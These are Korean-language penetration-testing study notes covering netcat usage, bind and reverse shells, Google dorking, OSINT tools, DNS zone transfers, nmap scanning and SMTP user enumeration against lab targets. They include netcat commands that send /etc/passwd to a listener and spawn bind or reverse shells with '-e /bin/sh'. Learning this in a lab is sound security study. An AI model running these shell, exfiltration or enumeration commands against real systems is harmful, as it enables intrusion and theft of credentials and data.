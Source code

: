 # whitehacker
모의해킹 공부 리포 입니다

## 넷캣 (해킹의 맥가이버 역할)

1) nc -h : 기본옵션확인

2) nc -lvp 4444
l : 리스닝모드 서버로 동작
v: vervus 상태메세지 출력
p : 리스닝시 포트번호 설정

3) nc [로컬ip -> 클라이언트or공격대상?] [공격대상포트번호] : 공격대상에 접속

4) cat /etc/passwd : passwd파일 보기
passwd파일 : 사용자 정보 담겨있음


### “<“ , “>” 꺽새표시의 의미

-nc -lvp 4444 > passwd
4444로 들어오는 정보를 passwd로 전달

-nc -q 0 [로컬ip] [공격대상포트번호] < /etc/passwd
passwd파일의 정보를 클라이언트쪽으로 보내줌\
q : 한번실행하고 명령종료 (여기선 파일 보내고 종료)


## 원격으로 커맨드쉘 생성 (바인드쉘 vs 리버스쉘)
-둘이 나뉘는 이유 : “방화벽”
방화벽은 최전방에서 들어오는 접속을 막지만, 내부에서 외부로 나가는 접속을 막지는 않음. 그래서 리버스쉘을 사용한다.

-공통 : 둘다 공격대상의 쉘에서 -e /bin/sh 입력함

* 바인드쉘 : 타겟 쪽에 서버포트가 열리고 해커쪽에서 타겟으로 접속하여 생성시키는 쉘

(공격대상에서)
1. nc -lvp 4444 -e  /bin/sh
e : 접속이 되고나면 실행할 명령 입력

(우리쪽)

2. nc [로컬ip주소] [포트번호]
하고나면 공격대상 쉘에 접속

* 리버스쉘 : 우리쪽에서 포트를 열고 타겟쪽에서 우리쪽으로 접속시킴
리스닝은 우리쪽에서 하지만 결국엔 우리쪽에서 명령어 입력가능

(우리쪽)
1. nc -lvp [포트번호]

(공격대상)

2. nc [로컬ip] [포트번호] -e /bin/sh\

* sh 명령어
1. id : 사용자 계정정보 확인
2. ip addr : ip주소 확인
3. cat /etc/passwd : 사용자 정보 확인


## 패시브 스캐닝

패시브 스캐닝 : 이미 공개되어 있는 정보 알아냄


-구글 해킹 키워드 정리
* site [사이트주소] : 그 사이트에 대한 정보만 나옴\
추가로 -site [사이트주소] 이 사이트에 대한 정보 만 없음\
추가로 filetype pdf
* inurl:admin : 관리자페이지가 어느사이트 내에 존재하는 지 알수잇음
* intitle: “index of” 취약한 사이트의 디렉토리와 파일들이 의도치않게 공개되는 경우가 있음 그때 웹문서상의 제목이 index of가 됨\
추가로 pdf 붙이면 그 확장자의 파일들 검색 가능
* 추가로 명령어 조사해보기
* exploit-db.com 에서도 google hacking database 볼수있음


-netcraft 사이트 searchdns.netcraft.com
인터넷상의 운용되는 웹서버들에 대한 정보 수집
(언제부터, 서버의 버전 등등)
* [사이트주소] 검색하면 각 서브 도메인 정보얻을 수 있음

-whois 사이트 whois.kisa.or.kr/kor/main.jsp
도메인을 등록할 때의 주소나 담당자 등 정보수집
* [사이트주소 or ip주소]

-이메일 수집
공격대상의 이메일 주소를 알아내기
* 터미널에 theharvester -d [검색할 도메인 이름] -b [사용할 검색엔진]
그 도메인을 사용하는 메일들이나 서브 메일, ip주소까지 확인가능


-Recon-ng
* 터미널에 recon-ng 입력
help : 각종 명령어 나옴\
search : 모듈 위치 확인\
use [실행할 모듈 (위치포함)]

* 모듈
whois_pocs : whois 서버에 공개되어있는 정보확인
bing_domain_web 도메인정보 host

* 모듈 안에서 명령어\
show option : 어떤 거 설정해야 될지\
show info\
set SOURCE [바꿀소스(도메인)] : 소스바꿈\
run : 모듈 실행\
control + c : 종료\
show contacts : 수집한 이메일, 각종 정보 출력 (whois_pocs)
show hosts (bing_domain_web)


## 액티브 스캐닝
### DNS정보수집
ip주소, 서버정보 등 얻을 수 있음

DNS : 도메인 이름을 ip주소로 변경하기 위해 사용하는 것

실습도메인 : zonetransfer.me

명령어 
* host zonetransfer.me : dns정보 알아냄, ip주소 알아냄
* nslookup zonetransfer.me : ip주소 알아냄

네임서버 : dns요청을 처리하는 서버
네임서버는 사이트의 서브도메인과 ip주소를 가지고있다

명령어
* host -t ns zonetransfer.me : 네임서버 알아내기

네임서버 알고나면 zonetransfer 공격 사용가능
zonetransfer : dns서버들끼리 자신들의 데이터베이스를 복사해주어 서로 정보를 공유하기 위해 사용하는 것

명령어
* host -l zonetransfer.me [네임서버이름] : 서브도메인들과 ip주소들을 알 수 있음
(zonetransfer.me 아직 이해 부족)


### 더 쉬운 버전 dnsenum
명령어
* dnsenum -h
* dnsenum zonetransfer.me

### 호스트검색

외부에서 수행할때 호스트 하나에 침투성공하면 연결된 다른 호스트로도 접근가능

명령어
* ping [ip주소] : 호스트가 살아있는지 확인
* fping -g [ip주소] : ip주소 쪽 전체로 핑 보냄
* fping -q -a -g [ip주소] : q(한번실행) a(살아있는핑만)
* nmap -sn [ip주소] : 살아있는 호스트 나옴

### 포트스캐닝
공격대상 호스트에 어떤 포트가 열려있는지, 어떤 서비스가 있는지 확인

주요사용포트는 암묵적으로 정해져있음
http : 80
https : 433
ftp : 21
ssh : 22

* vi etc/services : 서비스, 포트번호 어떻게 설정되어있는지 확인가능

포트가 열려있다 : 포트를 통해 서비스가 운영되고있다.

* nmap [ip주소] : 어느포트가 열려있는지
* nmap -sT
* (root권한일때) namp -sS
* namp -sU : udp스캐닝(느림)
* nmap -sU [ip주소] -p [포트번호]-[포트번호] : 포트번호 범위 지정
* nmap -O [ip주소] : 운영체제확인
* nmap -sV : 버전정보
* nmap -A [ip주소] : 버전정보 + 운영체제확인

nmap 스크립팅 엔진 : 특정서비스를 공격하는 스크립트를 실행하여 취약점과 익스플로잇 가능여부 파악가능
* ls -al /usr/share/nmap/scripts/  : 스크립트위치
* ls -al /usr/share/nmap/scripts/ftp- : ftp관련 스크립트만
* nmap [ip주소] -p 21 - -script=ftp-vsftpd-backdoor : 우리 스크립트에 백도어가 있는지 검사


## smtp 정보수집
* nc [메타스플로잇터블 ip주소]
** VRFY [사용자아이디] : 사용자 존재여부 확인
* smtp-user-enum -h : 명령어 확인
* ls -al /usr/share/wordlists/ : 칼리리눅스에서 사용하는 사용자목록 혹은 패스워드 목록
* cat /usr/share/wordlists/metasploit/namelist.txt : 사용자이름으로 쓸만한 이름들 나열됨
* smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/namelist.txt -t [메타스플로이터블 ip]

